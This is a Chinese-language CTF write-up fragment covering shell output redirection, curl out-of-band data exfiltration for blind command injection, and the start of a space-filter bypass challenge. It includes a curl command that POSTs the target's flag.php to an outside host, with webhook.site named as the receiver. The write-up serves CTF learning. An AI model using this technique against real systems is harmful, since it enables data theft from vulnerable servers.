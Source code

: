 ##### 4、为何要使用命令输出重导向
```php
当屏幕输出的信息很重要，而且我们需要将他存下来的时候；
背景执行中的程序，不希望他干扰屏幕正常的输出结果时；
一些系统的例行命令（例如写在 /etc/crontab 中的文件）的执行结果，希望他可以存下来时；
一些执行命令，我们已经知道他可能的错误讯息，所以想以『 2> /dev/null 』将他丢掉时；
错误讯息与正确讯息需要分别输出时。
```

#### 关于curl外带原理
参考文章[链接](https://blog.csdn.net/qq_46918279/article/details/121061134?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522D504C9D0-BC4E-4E9F-A061-C95391708225%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=D504C9D0-BC4E-4E9F-A061-C95391708225&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-121061134-null-null.142^v100^control&utm_term=curl%E5%A4%96%E5%B8%A6&spm=1018.2226.3001.4187)

##### curl简介
curl是一个利用URL语法在命令行下工作的文件传输工具，1997年首次发行。它支持文件上传和下载，所以是综合传输工具，但按传统，习惯称curl为下载工具。

cURL支持的通信协议有FTP、FTPS、HTTP、HTTPS等等。

##### curl使用条件
无论是在渗透测试还是ctf比赛中我们都可能会遇到目标应用把用户的输入当做系统命令或者系统命令的一部分去执行的情况。

在实际渗透中，还有很多不会直接回显的情况，这种时候我们就需要利用各种带外通信技巧

如题目中就是配合网站https://webhook.site/进行curl外带得到flag

##### curl使用方法
语法

```php
curl [option] [url]
```

 使用命令：  

```php
curl http://curl.haxx.se
```

 这是最简单的使用方法。用这个命令获得了http://curl.haxx.se指向的页面，同样，如果这里的URL指向的是一个文件或者一幅图都可以直接下载到本地  

```php
curl -X POST -F xx=@flag.php  http://aaa
```

这条命令被目标网站执行，那么意思就是：从目标网站以POST方式向[http://aaa](http://aaa)上传一个文件，名字叫xx 文件内容是flag.php（要使用curl上传文件时，只需在文件位置之前添加@。该文件可以支持任意类型的文件）

## RCEisamazingwithspace
![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731649542204-939a62d5-e2c8-4207-8874-5a6f2c2eaa25.png)

php代码审计发现任意命令执行并且存在正则匹配过滤空格

所以我们只需将任意命令中的空格替代就可获得flag
